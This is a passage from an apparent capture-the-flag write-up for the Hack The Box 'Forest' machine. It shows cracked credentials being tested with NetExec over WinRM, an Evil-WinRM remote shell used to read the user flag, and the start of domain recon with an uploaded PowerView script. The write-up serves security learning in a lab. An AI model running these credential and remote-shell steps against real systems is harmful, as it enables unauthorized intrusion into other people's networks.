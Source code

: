 ## WinRM Access

We now have the user's password: `svc-alfresco:s3rvice` and the possibilities could be endless at this point 😎.

Using [NetExec's](https://www.netexec.wiki/winrm-protocol/authentication) winrm feature, we can test if the creds actually work. (*Expected result should have `Pwn3d`*)

```bash
➜  Forest nxc winrm 10.10.10.161 -u svc-alfresco -p s3rvice 
WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Confirmed, proceed to get a shell using `Evil-WinRM` and grab your local flag from the Desktop:🚩


```bash
➜  evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice' -s '~/Desktop/CTF/HTB/Forest' -e '~/Desktop/CTF/HTB/Forest' -l 

                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: Logging Enabled. Log file: /home/oste/evil-winrm-logs/20241405/10.10.10.161/122631
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> more ..\Desktop\user.txt
fe5ff80e8916c20bcafb1eeb51248e01

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

## Domain Recon

### PowerView

On Evil-Winrm, you can use the `menu` option to view other things you can do on your shell session. In my case, I wish to upload [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) , on the target machine for further enumeration.

> _PowerView is a PowerShell tool to gain network situational awareness on Windows domains. It also implements various useful metafunctions, including some custom-written user-hunting functions which will identify where on the network specific users are logged into. It can also check which machines on the domain the current user has local administrator access on. Several functions for the enumeration and abuse of domain trusts also exist._ 
> ~ Source: _[PowerSploit Documentation](https://powersploit.readthedocs.io/en/latest/Recon/)_
